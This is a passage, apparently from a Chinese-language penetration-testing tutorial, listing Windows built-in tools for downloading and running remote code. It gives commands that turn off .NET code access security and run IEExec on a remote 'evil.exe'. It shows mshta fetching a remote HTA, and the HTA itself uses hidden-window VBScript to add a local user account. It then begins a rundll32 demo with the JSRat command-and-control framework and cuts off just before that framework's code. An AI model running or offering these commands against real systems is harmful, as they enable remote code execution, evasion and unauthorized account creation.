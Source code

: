 使用管理员身份打开cmd，分别运行下面两条命令。

~~~powershell
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
~~~

![](http://img-upaiyun-own.test.upcdn.net/20200413-10.png)



**11、mshta**

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

~~~powershell
mshta http://192.168.28.128/run.hta
~~~

run.hta内容如下：

~~~html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
~~~

![](http://img-upaiyun-own.test.upcdn.net/20200413-11.png)



**12、rundll32**【验证成功】

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git

步骤一：开始运行JSRat，监听本地8888端口。

![](http://img-upaiyun-own.test.upcdn.net/20200413-12-1.png)

步骤二：通过url访问，可以查看恶意代码。

![](http://img-upaiyun-own.test.upcdn.net/20200413-12-2.png)

复制代码如下：
